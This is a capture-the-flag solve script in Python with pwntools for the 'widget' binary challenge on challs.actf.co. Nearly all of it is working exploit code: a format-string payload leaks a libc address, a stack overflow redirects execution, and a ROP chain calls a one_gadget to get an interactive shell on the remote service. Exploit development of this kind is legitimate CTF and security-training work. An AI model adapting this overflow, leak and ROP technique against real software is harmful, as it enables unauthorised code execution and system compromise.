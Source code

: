 {% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *
import subprocess

def amount(m):
    global p
    p.sendlineafter(b'Amount: ',m)

def content(m):
    global p
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget_patched",checksec=False)
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)

padding = b'A'*32

bss = 0x00404010+0x100

# first run
payload = b'%33$p|' # leaks libc
payload += b'A' * (32-len(payload))
payload += p64(bss) # rbp here is needed
payload += p64(0x004013e3) # goes back to Amount:, not main

amount(str(len(payload)).encode()) # amount should always be equal to len(content)
content(payload)

p.recvuntil(b'Your input: ')
leak = p.recvuntil(b'|',drop=True).decode()
leak = int(leak,16)
offset = 0x155555313e40-0x1555552ea000
libc.address = leak-offset
print("Leaked:",hex(leak))
print("Libc base:",hex(libc.address))

onegadget = libc.address + 0xebcf8
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbp = libc.address + 0x0000000000090529

# second run
payload = padding
payload += p64(bss) #rbp
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbp) + p64(0) + p64(0)
payload += p64(onegadget)

amount(str(len(payload)).encode())
content(payload)

p.interactive()
```